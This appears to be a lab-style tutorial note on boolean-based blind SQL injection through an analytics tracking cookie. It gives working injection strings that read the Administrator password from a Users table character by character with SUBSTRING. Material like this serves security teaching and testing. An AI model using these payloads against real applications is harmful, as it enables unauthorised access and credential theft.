 # 16. Exploiting blind SQL injection by triggering conditional responses

## 🔍 Scenario

An application uses tracking cookies for analytics. The cookie looks like this:

```sql
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

Internally, the app runs this query:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

- The query is vulnerable to **SQL injection**.
- The **query result is not visible**, but the **app behavior changes**:
    - ✅ If the `TrackingId` exists → **"Welcome back"** is shown.
    - ❌ If not → no such message.

This **behavioral difference** makes it possible to perform **blind SQL injection**.

---

## 🧪 Boolean-Based Blind Injection

Test the app's reaction to injected conditions:

### Example 1 – **Always True Condition**

```sql
TrackingId=xyz' AND '1'='1
```

- Query returns results
- **"Welcome back"** is displayed ✅

### Example 2 – **Always False Condition**

```sql
TrackingId=xyz' AND '1'='2
```

- Query returns no results
- No **"Welcome back"** message ❌

🔁 By changing the condition, we can infer data **bit by bit**.

---

## 🧑‍💻 Extracting the Admin Password

Assume:

- Table: `Users`
- Columns: `Username`, `Password`
- Target User: `Administrator`

We can guess the password **character-by-character** using `SUBSTRING`:

### Step 1 – Test if 1st character is greater than `'m'`:

```sql
TrackingId=xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'), 1, 1) > 'm
```

✅ "Welcome back" → first character is **after** `'m'`

### Step 2 – Narrow the range:

```sql
TrackingId=xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'), 1, 1) > 't
```

❌ No welcome → character is **not after** `'t'`

Eventually, you find:

```sql
TrackingId=xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'), 1, 1) = 's
```

✅ "Welcome back" → First character is `'s'`

Repeat for characters `2`, `3`, `4`, ... to retrieve the full password.

---

## 🧠 Pro Tips

- 🧬 The `SUBSTRING` function may be called `SUBSTR` (e.g., Oracle).
- 🔗 Use the [**SQL Injection Cheat Sheet**](https://portswigger.net/web-security/sql-injection/cheat-sheet) for DB-specific syntax.